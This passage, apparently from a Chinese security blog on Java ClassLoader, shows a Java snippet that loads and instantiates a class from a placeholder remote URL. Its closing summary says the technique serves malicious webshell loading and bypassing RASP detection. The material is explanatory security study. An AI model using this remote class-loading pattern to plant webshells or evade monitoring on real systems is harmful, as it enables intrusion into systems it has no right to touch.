 
![image-20220515170810243](img/image-20220515170810243.png)

### 调用网络上class文件

```java
package ClassLoader;

import java.net.URL;
import java.net.URLClassLoader;

public class ClassLoaderTest_2 {
    public static void main(String[] args) throws Exception {
        URL url = new URL("http://ip:port/Test");
        URLClassLoader classLoader = new URLClassLoader(new URL[]{url});
        Class clazz = classLoader.loadClass("Test.test");
        clazz.newInstance();
    }
}
```

##  总结

在安全领域中，我们往往会使用其ClassLoader特性，自定义恶意的类加载webshell利用以及自定以类字节码的native方法绕过RASP检测。

## 参考文章

https://xz.aliyun.com/t/9002#toc-18
